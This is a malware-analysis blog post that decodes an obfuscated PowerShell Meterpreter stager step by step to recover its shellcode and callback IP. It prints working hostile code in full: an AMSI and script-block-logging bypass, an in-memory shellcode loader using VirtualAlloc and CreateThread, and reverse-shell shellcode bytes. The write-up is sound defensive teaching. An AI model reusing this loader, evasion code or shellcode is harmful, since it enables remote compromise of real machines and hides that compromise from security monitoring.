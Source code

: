 ```yaml
---
tags: PowerShell-Analysis
---
```

## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

Below is an example of a command line which is often associated with exploitation attempts via Metasploit

```powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c
$x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new();
$gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u''));
$plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a''));
if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null);
If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}
{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,
[System.Convert]::FromBase64String(((''''H4sIA{1}wxYWUA/7VWbW/aShP9X''+''qn/waqQsHUJmJf2kkiVnjX{1}QIOJiQMkUFRt7MVsWXuJvQ5Bvf3vnfV{0}QtSkzXOvasnCXs/M''+''zp45c4ZV{1}rqC8lCh723l29s3Sn7ZOMKBopbcGW/fV5QS3WqPH0t+m42Uj4q6QNttlweYhsuTk04SRSQU2Xu1RwSKYx{0}cM{1}piVVP+UWZr{1}pGj85uvxBXKN6X0pdpj/Aaz3Gzfwe6aK{1}co9OS3IXexTKzqbBkVavnz57K2OKovq6e3CWaxWnb2sSBB1WOsrCnfNbnh5X5{0}1{0}JF3YjHfCWqMxo2G9VJGOMVGUG0O2IRseZeXIbDPB4nIiKJwuxUMkxmpJbh0Y64izwvInFcrig{0}ucFiufyfush3v0hCQ''+''QNSHYSCRHzrkOiOuiSu9nHoMXJBVkvwckR{1}Q3+paWB2xzd{1}{0}YUJYxXl/wmjjsiuwO61Tuqh{1}1jZItIqUNNnzmlx{0}2{1}k8yw/k2jGAw2ujAuA33cJ4QN9Alz/0n2GQI8{0}xbVIvxDIWbV5TFPvj4peUSzYHQse7eG1dBklRFs+IK6UghY6q7w2Wr1wBce7XgIriymn3v{0}R/wkBSqvb3vS9tHqZz12yoiHp7kMcU{0}eg7BO{1}i7KQFYNXSd3''+''CbAQZquX8A/G6hB{1}fCwm0ZMdPbqcBFQ++RkKZRy{0}kQmljyAqqrj1NJqudWh6{1}FgkAvuwd6FpaQaOQwjpvjn2xu3wHo3KH4TiuKHYCnepWFIdgRryKgsKY5p9QInj6KFsgT9dKmKAujkURbnmoDyme+b4dHsYiSlyo{0}GBw6WyJSzGTkFSUPvWIsXeoX+x/sMMBIB3MGHQQR{0}qDgsCKBMIRki8RpJpyQ6s6RAyC{0}SMB2KTSYT{0}sg1DkfZISDPv{1}k83/bKZFP2Tkl9gUoBzkCQV3GBcVZUojA''+''UokcQaK/assfpag{0}J1ORPICqUWj{0}Yy9kI1QCofjxkZSNYcpBSUSAIgZ8cDAMfnQygRHfVc7pzaC67rbdyiZbmh9sIPbgntCmwNurdq20HlguZ3Y7pltRHf+zm2PkOt98sixA3bjaUt0bNQfU91orV1Dv0yf/Wta933kjcZrl+n26ea+1op1uuvPZKwshttq9a''+''901Gy2zpv6BgCUPhvwCejufgjPoKznQ2MQG/qAnX7qXNzMGuZ8xvq1lrlezXjsf{0}ju1mq1Yw93rT1CBvea1v6qfs{1}v+25gt{1}JeO+60NugUoU54OjUNfnZtRMiuTbG/5bszH6GZ30HorzUl8/H{1}NMZj00CT3tfb7nHNrx3PrvDam{1}0bd{0}69uljDu7nrj62a3hp45J63hzM6vZOxjFvDnF9hNJzvzVqtfh038MbgyABgzfkt6q2vt6bNwP9y0uBoykaPtuN+9''+''8yd1/+OrY/voJK{0}CQ1Fs7GUjdmUovf2TYm5x+2Dcr4k6haO4jVm''+''UGZQ66{0}nTB6ZuQDbH{1}KDCKpyjm9IFBIGow+GY8FTxBh3pfxnSg2zJ5sIckBN4BHSeu5JgyGfG4{0}4F3OhWDo5mUOWwP2UldUhCX2xruj3TV0HQdfv9VbK8tcfrsO3e5g6Mhr4Q2AJz0N8lsaHkHSlq{0}8dnv''+''8ZMhj+AhToF6C9hB/svQHBAAn{0}mliiaHDODjHMj/bAiScQAnZ1OP5Cjv6U{0}RDiiNwqJVBSoh3O2VJyc37zRwmUq9{1}afrzf{1}uhx7RdfX0UqvZIh9NPy04UDMf9z{1}MwwFWDogKoyko37F5DIu+agz{0}I+0BKr''+''/J{0}/hM8TcTSCf1aptv8AyS{1}BNoI{0}AAA='')-f''L'',''E'')))),
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

Obfuscation is used in the form of concatenating the base64 encoded string, and gzip compression.
We can identify the value of the arrays after a given sequence by looking for the '-f' argument.

"-f''L'',''E''"

{0} = L

{1} = E

Then it's a case of getting the Base64 encoded string, removing the concatenations and replacing the array values.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b813cf1a-4d3a-4b1d-86ef-17d99456d3b5)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8739fc4-2063-4328-a35a-b8d931da62ae)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5108a2ac-dbb7-4ff2-a75c-c4623fc25fc8)




Next, we'll add a From Base64 and Gunzip operator to reveal the following code:

```powershell
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("/OiPAAAAYDHSieVki1Iwi1IMi1IUi3IoMf8Pt0omMcCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi0gYi1ggAdNQhcl0PEkx/4s0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpowKgAAWgCAA+hieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

This [articale](https://isc.sans.edu/diary/Fileless+Malicious+PowerShell+Sample/23081) from SANS probably does a better job of explaining the grittier details of this script.

But what we are interested in is the Base64 string.
We'll throw it into CyberChef and add a From Base64 and To Hex operator to reveal the shellcode

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/80ecde0b-f1b1-4185-a322-9f616a2fe4e7)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7c49af16-e21f-4871-817b-017094a1c3ab)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a544358b-3b91-426a-b8fb-d49f52f2c702)




```
fc e8 8f 00 00 00 60 31 d2 89 e5 64 8b 52 30 8b 52 0c 8b 52 14 8b 72 28 31 ff 0f b7 4a 26 31 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 49 75 ef 52 8b 52 10 57 8b 42 3c 01 d0 8b 40 78 85 c0 74 4c 01 d0 8b 48 18 8b 58 20 01 d3 50 85 c9 74 3c 49 31 ff 8b 34 8b 01 d6 31 c0 ac c1 cf 0d 01 c7 38 e0 75 f4 03 7d f8 3b 7d 24 75 e0 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 58 5f 5a 8b 12 e9 80 ff ff ff 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 89 e8 ff d0 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 6a 0a 68 c0 a8 00 01 68 02 00 0f a1 89 e6 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 6a 00 6a 04 56 57 68 02 d9 c8 5f ff d5 8b 36 6a 40 68 00 10 00 00 56 6a 00 68 58 a4 53 e5 ff d5 93 53 6a 00 56 53 57 68 02 d9 c8 5f ff d5 01 c3 29 c6 75 ee c3
```

Then with this shellcode, we can use a x86 Dissassembler to reveal the instructions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8408cee5-eb25-4b97-9c69-e4d3a2662760)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/00b20d83-8eba-4fba-b1de-2773dd0d4b13)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f808fc0b-ad87-486e-a540-8a7bdcd0758d)




To find the IP which the shell will call back to, we need to look for the PUSH instructions above the MOV ESI,ESP instruction, which is above multiple PUSH RAX insutrctions

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5a5efcb0-f9c4-4bde-a647-ccdc421dc1b4)

By taking the Hex contents of the first PUSH instruction, after 68 (Which is just the instruction to PUSH), we get C0A80001, converting this From Hex, To Decimal, we get our source IP: 192.168.0.1

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b72c9cec-eb6f-40bf-9f31-56d0b864d465)









<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-48M02RY99Q"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-48M02RY99Q');
</script>


